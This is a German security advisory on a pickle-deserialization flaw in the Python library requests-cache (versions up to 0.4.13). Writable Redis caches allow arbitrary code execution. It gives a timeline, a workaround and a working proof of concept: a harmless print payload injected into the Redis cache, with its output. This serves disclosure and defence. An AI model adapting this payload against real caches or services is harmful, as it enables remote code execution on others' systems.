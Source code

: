 ```yaml
---
title: Sicherheitslücke in requests-cache
author: Simon Biewald
description: Eine Sicherheitslücke in requests-cache erlaubt Codeausführung.
subject: requests-cache, Sicherheit, Python
date: 2018-01-26
---
```


# Sicherheitslücke in requests-cache

In `requests-cache` ist bis einschließlich in 
der aktuellen Version (Stand: 2018-01-29) 0.4.13 eine Sicherheitslücke, 
die unter Umständen die Ausführung beliebiger
Befehle ermöglicht.

`requests-cache` ermöglicht das Zwischenspeichern von Anworten auf Netzwerkanfragen der 
Python-Bibliothek`requests`. Die Antworten werden mit `pickle` serialisiert. Da die 
serialisierten Daten auf möglicherweise nicht vertrauenswürdigen Netzwerkorten
abgelegt werden, können, sofern Schreibzugriff auf diese besteht, spezielle 
Daten auf diesen abgelegt werden, welche von `requests-cache` wieder geladen und
ausgeführt werden.

Konkret kann die Sicherheitslücke ausgenutzt werden, wenn als Cache-Backend `redis`
verwendet wird und auf den Rediscache zugegriffen werden kann. Dazu kommt, dass
`requests-cache` nicht die Verwendung eines Passworts mit Redis ermöglicht.

Dieses könnte genauso für die Benutzung von MongoDB als Cache-Backend gelten.

Links:

 - [requests-cache](https://pypi.python.org/pypi/requests-cache/0.4.13) 
 auf PyPi
 - [reclosedev/requests-cache](https://github.com/reclosedev/requests-cache/)
 auf GitHub
 
## Historie

 - 14.01.2018: Email an Author; Keine Antwort.
 - 26.01.2018: Issue auf GitHub mit genauer Beschreibung und Proof-of-Concept

## Fix

Noch kein offizieller Fix verfügbar.

### Workaround

Durch die Verwendung des `memory`-Backends (Fallback wenn `sqlite` nicht verfügbar) 
bzw. des `sqlite`-Backends (Standard) mit sicheren Zugriffsrechten ist es möglich 
diese Sicherheitslücke zu vermeiden.

## Proof-of-Concept

Vorraussetzung:

 - Redis auf `localhost:6379`
 - Python3 mit `requests`, `requests-cache<=0.4.13`


<pre class="language-python line-numbers">
<code>import requests
import requests_cache

requests_cache.install_cache(cache_name='cache',backend='redis')
requests_cache.clear()

print("Cachezugriff I.")
response = requests.get("https://example.org")


### Angreifer
print('Angreifer: Setzen des Exploits')
from redis import StrictRedis as Redis
from requests_cache.backends.storage.redisdict import RedisDict

rd = Redis()

class Exploit:
    def __reduce__(self):
        return (print, ("I won.",))

import pickle

exploit = pickle.dumps(Exploit(), protocol=0)

for key in rd.hgetall("cache:responses").keys():
    rd.hset("cache:responses", key, exploit)

print('Angreifer: Ende')
### Angreifer Ende

print("Cachezugriff II. (Exploit)")
response = requests.get("https://example.org")</code></pre>

### Ausgabe

Die Fehlermeldung entsteht dardurch, das der Proof-of-Concept-Exploit nicht besonders 
ausgereift ist.

```python
Cachezugriff I.
Angreifer: Setzen des Exploits
Angreifer: Ende
Cachezugriff II. (Exploit)
I won.
I won.
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/home/simon/.local/lib/python3.6/site-packages/requests/api.py", line 72, in get
    return request('get', url, params=params, **kwargs)
  File "/home/simon/.local/lib/python3.6/site-packages/requests/api.py", line 58, in request
    return session.request(method=method, url=url, **kwargs)
  File "/home/simon/.local/lib/python3.6/site-packages/requests_cache/core.py", line 126, in request
    **kwargs
  File "/home/simon/.local/lib/python3.6/site-packages/requests/sessions.py", line 508, in request
    resp = self.send(prep, **send_kwargs)
  File "/home/simon/.local/lib/python3.6/site-packages/requests_cache/core.py", line 97, in send
    response, timestamp = self.cache.get_response_and_time(cache_key)
  File "/home/simon/.local/lib/python3.6/site-packages/requests_cache/backends/base.py", line 72, in get_response_and_time
    response, timestamp = self.responses[key]
TypeError: 'NoneType' object is not iterable
```


